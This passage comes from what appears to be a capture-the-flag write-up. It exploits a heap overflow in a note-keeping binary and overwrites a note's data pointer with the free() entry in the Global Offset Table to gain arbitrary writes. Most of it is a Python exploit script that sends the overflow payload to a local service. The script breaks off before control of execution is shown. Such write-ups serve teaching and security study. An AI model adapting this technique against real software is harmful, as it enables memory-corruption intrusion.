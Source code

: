 Notice that I've kept the bytes at `0x8314064` and `0x8314068` the same: `0x00000029 0x00000062`. If these are overwritten, then the binary cannot find note `b` anymore, which effectively stops our attack! I overwrote the pointer to the data with `0x804b020`. This is the pointer to `free()` in the Global Offset Table. Remember, after every `get` sent to the binary, `free()` is called. By overwriting the pointer to the note data, we can set any memory to arbitrary values with an `edit b` command to the binary! 

Control of execution
---

I tested this hypothesis with the following python:

```python
import re
import string
import struct
import socket
import time
import telnetlib
import sys

def p(x):
    return struct.pack('<L', x)

# function to send commands to the binary
def z(sock, x):
    sock.send(x + '\n')
    time.sleep(0.01)
    data = sock.recv(200)
    time.sleep(0.01)
    return data

# connect to remote host
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 9005))

# receive banner
s.recv(512)

# ask the binary to store three notes
# we'll overflow a into b later on
z(s, "store")
z(s, "a")
z(s, "4")
z(s, "AAAA")

z(s, "store")
z(s, "b")
z(s, "4")
z(s, "BBBB")

z(s, "store")
z(s, "c")
z(s, "4")
z(s, "CCCC")

# edit a with a large value
# this overflows and overwrites the note_info struct of b
# the pointer to the data is overwriting with free@got
print "[+] overflowing a to set b to free@got"
z(s, 'edit')
z(s, 'a')
z(s, '40')
z(s, "A"*12+"\x29\x00\x00\x00\x62\x00\x00\x00"+"A"*12+p(4)+p(0x804b020))
#     ^ overflow    ^ restore 0x29, 'b'               ^ size of b ^ free@got
```